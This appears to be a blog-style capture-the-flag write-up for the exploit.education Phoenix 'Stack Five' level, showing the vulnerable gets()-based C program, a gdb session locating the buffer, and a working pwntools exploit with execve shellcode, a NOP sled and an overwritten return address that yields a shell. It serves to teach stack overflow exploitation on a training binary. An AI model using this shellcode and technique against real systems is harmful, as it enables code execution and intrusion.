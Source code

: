 ```yaml
---
title: "Phoenix - Stack Five"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "Here we don't have any function to jump to but we have a buffer large enough to fit a shellcode.
The idea is to put our shellcode in **buffer** and return execution to it..."
categories:
  - Binary Exploitation
---
```



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void start_level() {
  char buffer[128];
  gets(buffer);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

Here we don't have any function to jump to but we have a buffer large enough to fit a shellcode.

The idea is to put our shellcode in **buffer** and return execution to it.

So we have to enter: (shellcode + junk to fill the buffer + 8 bytes for RBP + RIP with the address of the buffer).

When dealing with shellcode it's a good idea to unset some environment variables that gdb adds them to jump to the right address.

```
$ gdb -q /opt/phoenix/amd64/stack-five
Reading symbols from /opt/phoenix/amd64/stack-five...(no debugging symbols found)...done.

gef➤  unset env LINES
gef➤  unset env COLUMNS
gef➤  disassemble start_level 
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	push   rbp
   0x000000000040058e <+1>:	mov    rbp,rsp
   0x0000000000400591 <+4>:	add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:	nop
   0x00000000004005a2 <+21>:	leave  
   0x00000000004005a3 <+22>:	ret    
```

Buffer size if 0x80 = 128 bytes.

Now we put a breakpoint at **gets** function to get the address of buffer.

```
gef➤  b *0x000000000040059c
Breakpoint 1 at 0x40059c

gef➤  r
Starting program: /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

Breakpoint 1, 0x000000000040059c in start_level ()

gef➤  print $rbp-0x80
$1 = (void *) 0x7fffffffe5d0
```

Buffer address at 0x7fffffffe5d0.

Now we have all the pieces to write the exploit.

You can find a lot of shellcode at **http://shell-storm.org/shellcode**.

It's always good to add some NOP instructions before the shellcode to add some flexibility with the exact address of the buffer (NOP is no operation instruction, it does nothing so it's useful to fill gaps).

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90'*30			# NOP Sled
buff += shellcode			# shellcode
buff += 'A'* (128 - len(buff))		# junk
buff += 'BBBBBBBB'			# RBP value
buff += p64(0x7fffffffe5d0)		# RIP value (buffer address)

print(buff)
```

Wee need to chain our script with **cat** command to avoid closing the input stream.

```
$ (python solve.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
whoami
phoenix-amd64-stack-five
```

